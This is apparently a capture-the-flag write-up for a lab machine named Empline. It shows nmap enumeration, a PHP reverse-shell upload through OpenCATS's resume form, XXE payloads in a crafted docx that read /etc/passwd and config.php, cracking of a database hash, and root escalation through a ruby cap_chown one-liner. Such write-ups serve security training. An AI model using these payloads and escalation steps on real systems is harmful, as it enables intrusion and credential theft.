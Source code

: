 # Enumeration

Starting with nmap
```bash
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c0:d5:41:ee:a4:d0:83:0c:97:0d:75:cc:7b:10:7f:76 (RSA)
|   256 83:82:f9:69:19:7d:0d:5c:53:65:d5:54:f6:45:db:74 (ECDSA)
|_  256 4f:91:3e:8b:69:69:09:70:0e:82:26:28:5c:84:71:c9 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Empline
3306/tcp open  mysql   MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 96
|   Capabilities flags: 63487
|   Some Capabilities: SupportsLoadDataLocal, ConnectWithDatabase, ODBCClient, LongPassword, Support41Auth, Speaks41ProtocolNew, Speaks41ProtocolOld, SupportsTransactions, DontAllowDatabaseTableColumn, FoundRows, IgnoreSigpipes, LongColumnFlag, SupportsCompression, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: cM8nEJ&yV~9>l'xIDZxk
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```
Looking at the results, we have port 22, 3306 and 80.

### PORT 80

![image](https://user-images.githubusercontent.com/43528306/138642355-d900a779-6dd5-4f98-8b7a-642c5e7d243d.png)

The website seems almost static except the `Employement` tab which points us to `job.empline.thm/careers`. We need to add this subdomain to our `/etc/hosts` file.

Looking at this subdomain, we found the webserver was running *OpenCATS*, which is free and open source Application Tracking System. The page also list the current openings and a *apply* button.

![image](https://user-images.githubusercontent.com/43528306/138642494-2e4bd5e0-90eb-4bf1-9790-54828408558b.png)

Using `Apply to Position` button, the application allow us to upload our Resume file and other details to apply for the job.

# Exploit
It was exploitable in two ways:

## Using Uploading PHP shell
As the application was written in PHP, we can try to upload a PHP reverse shell using Resume upload functionality. Uploading the Shell and submitting the form, we recieved `Resume was uploaded succesful`. 

As the application was open-source, we can find the complete directory structure from Github. We found `/upload` directory, navigating to `job.empline.thm/upload`, we can see our PHP shell was uploaded successfuly, using which we can get a reverse shell.


## Using XXE 
The application was vulnerable to XXE attack as mentioned in this [blogpost](https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/), where we can upload are resume. 

Docx file are basically zipped XML files. As the application was reading our *resume.docx* and extracting out the data,
we can assume that its parsing the whole file to extract data from it. We can create a simple docx using the following code
```python
from docx import Document

document= Document()
paragraph = document.add_paragraph("Rocklee")
document.save('resume.docx')
```
### Creating Malicious docx
The script created the .docx file, to modify it according to our purpose, we need to change few things in the file. For this,
- We need to unzip the docx file.
- Modify the content of `word/document.xml`. After first line, add following paylaod:
```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
```
- Save the changes
- Zip the file again with modified contents
```bash
zip resume.docx word/document.xml
```

Upload the file and we have the contents of passwd file.

![image](https://user-images.githubusercontent.com/43528306/138641030-8cda02cf-73bd-4888-9582-7c6be54b2c23.png)

As the application was open-source, from github we found the whole directory structure. Our next task was to extract data from `config.php`
```xml
<!DOCTYPE [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

Using this, we found the credentials to database.
```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```

### Shell as www-data
 We got shell on the box, lets start enumerating the box. Looking at passwd file, we found other users available on the box.
```bash
cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
george:x:1002:1002::/home/george:/bin/bash
```
 Looking at the `config.php` in web root folder,
 ```php
/* Database configuration. */                                                       
define('DATABASE_USER', 'james');                                                   
define('DATABASE_PASS', 'ng6pUFvsGNtw');                                            
define('DATABASE_HOST', 'localhost');                                                                                                                                    
define('DATABASE_NAME', 'opencats');
```
Config file contains creds for MySQL. As from our nmap scan, we confirm that MySQL was running on the box, we can use the creds to login into MySQL.
```mysql
MariaDB [opencats]> select * from user\G;
...[snip]...
*************************** 3. row ***************************
                  user_id: 1251
                  site_id: 1
                user_name: george
                    email: 
                 password: 86d0dfda99dbebc424eb4407947356ac
...[snip]...
```
The database contains a users table with password and username. The password hash was MD5 which we can easily decrypt using any online service 
Using crackstation, we found the password `pretonnevippasempre`

### Shell as George
As we already have the password for the user, we can SSH using the creds we found on the box. Now we can read user.txt file.

Running LinPeas, we found capabilities set on `ruby`.
```bash
george@empline:/$ getcap -r / 2>/dev/null 
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
Ruby was having a capablity of `cap_chown`, This capability allow us to change owner of a file. Looking at [docs](https://apidock.com/ruby/File/chown/class), we found a way to do this in ruby which require user-id and gid to which we want to change this to.
```bash
george@empline:/dev/shm$ ruby -e 'require "fileutils";FileUtils.chown(1002,1002,"/root")'                                                                         
george@empline:/dev/shm$ cd /root                                                                                                                                 george@empline:/root$ ls -la                                                                                                                                       total 36                                                                                                                                                           drwx------  4 george george 4096 Jul 20 19:52 .                                                                                                                   drwxr-xr-x 24 root   root   4096 Oct 25 04:34 ..                                                                                                                   -rw-------  1 root   root      5 Jul 20 19:52 .bash_history                                                                                                       -rw-r--r--  1 root   root   3106 Apr  9  2018 .bashrc                                                                                                             drwxr-xr-x  3 root   root   4096 Jul 20 19:49 .local                                                                                                               -rw-r--r--  1 root   root    148 Aug 17  2015 .profile                                                                                                             drwx------  2 root   root   4096 Jul 20 19:45 .ssh                                                                                                                 -rw-r--r--  1 root   root    227 Jul 20 19:48 .wget-hsts                                                                                                           -rw-r--r--  1 root   root     33 Jul 20 19:48 root.txt           
```
We have now changed the permission of `/root` directory. From here, we can either grab ssh private keys of root, or we can change the permission of *shadow* file and the change the root's password.

ROOT!!

---
- https://man7.org/linux/man-pages/man7/capabilities.7.html
